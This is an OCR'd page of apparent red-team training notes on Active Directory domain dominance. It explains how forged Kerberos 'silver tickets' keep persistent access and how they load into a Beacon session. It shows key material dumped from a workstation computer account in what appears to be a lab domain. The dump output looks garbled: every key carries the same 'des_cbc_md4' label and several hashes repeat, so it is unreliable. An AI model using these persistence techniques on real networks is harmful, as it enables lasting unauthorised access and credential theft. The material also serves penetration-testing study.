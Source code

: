 ```yaml
---
description: 10/02/2025
---
```


# ✅ Domain Dominance

## Introduction

Once an attacker achieves a high-level of privilege within the Domain, such as Domain or Enterprise Admin, it is very difficult for a defending organization to recover or even consider the forest "clean" again.

Attackers with this kind of access can extract credentialed material from the domain and use it to re-obtain Domain Administrator level access at any time.

The majority of these credentials are never changed post compromise, practically granting unlimited access.

## Silver Tickets

<mark style="color:yellow;">A "silver ticket" is a forged service ticket signed using the secret material</mark> (<mark style="color:$success;">RC4/AES</mark> keys) of a <mark style="color:yellow;">computer account</mark>.&#x20;

<mark style="color:$success;">You may forge a TGS for any user to any service on that machine</mark>, which is incredibly useful for medium-to-short term persistence.

By default, computer passwords will change every 30 days.

* At this time, you will need to re-obtain the new secrets to continue making silver tickets

Both silver and golden tickets are forged, so _<mark style="color:$success;">**they can be generated on your own machine and imported into your Beacon session for usage across the domain**</mark>_.

**Dump Kerberos keys from Workstation 1 from a&#x20;**<mark style="color:yellow;">**`SYSTEM`**</mark>**&#x20;Beacon:**

```
Session           : Service from 0
User Name         : WKSTN-1$
Domain            : DEV
Logon Server      : (null)
Logon Time        : 10/17/2023 10:31:24 AM
SID               : S-1-5-20

	 * Username : wkstn-1$
	 * Domain   : DEV.CYBERBOTIC.IO
	 * Password : (null)
	 * Key List :
	   des_cbc_md4       3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
```
